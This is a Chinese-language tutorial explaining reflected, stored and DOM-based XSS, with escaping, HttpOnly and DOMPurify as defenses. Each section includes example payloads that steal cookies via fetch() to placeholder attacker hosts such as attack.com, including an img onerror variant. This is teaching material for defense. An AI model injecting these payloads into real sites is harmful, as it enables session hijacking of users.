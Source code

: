 [toc]

# XSS 攻击

## 1. 前言

XSS (Corss Site Scripting)也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对用于的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

反射型，存储型，DOM型

## 2. 反射型(url)

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

举个例子：

```js
// 当用户在搜索时，比如
http://www.xxx.com/music?name='青花瓷'
```

后端假设返回搜索的name，而这时候攻击者在 url 后面拼接一个恶意的script，如 alert(1);

```js
http://www.xxx.com/music?name='青花瓷'<script>alert(1)</script>
```

又假如拼接的是一个 documen.cookie呢？然后将这个cookie发到它自己的电脑上，cookie就被盗取了

```js
http://www.xxx.com/music?name='青花瓷'<script>fetch(`http://恶意者的网站.com/>cookie=${document.cooki}`)</script>
```

造成反射型 XSS 攻击的原因是服务端没有过滤scritp， 所以解决方案很简单，在服务器对用户的输入进行过滤，过滤方案很多。

一种方式是对用户输入进行 encode，比如：

```js
${encodeURIComponent(req.query.name)
```

第二种方式就是替换掉特殊字符，比如 `<` `&` 等，只要替换掉，自然就不会解析了

```js
function replaceSpecialSymbol(str) {
	return str
					.replace(/&/g, '&amp;')
          .replace(/"/g, '&quot;')
          .replace(/'/g, '&apos;')
          .replace(/</g, '&lt;')
          .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 cookie的话，最好将其设置为 HttpOnly,这样攻击者就无法利用 JS 脚本在前端获取到 Cookie了

## 3. 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端未经过转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```ba'sh
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致。

## 4. DOM型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

## 5. 防御方案

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

